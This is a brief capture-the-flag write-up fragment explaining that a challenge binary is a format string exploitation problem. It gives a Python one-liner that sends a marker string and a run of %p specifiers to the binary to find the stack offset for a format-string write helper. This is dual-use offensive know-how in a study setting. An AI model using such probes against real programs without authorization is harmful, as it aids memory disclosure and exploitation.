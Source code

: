 ## Solve explanation
This is a format string exploitation problem.
You can get the offset to calibrate the ```Fmstr.write()``` function using the payload generated by,
```
python -c "print('ABCDEFGH|' + '|'.join(['%d:%%p' % i for i in range(1,40)]))" | ./readme | grep 4847
```

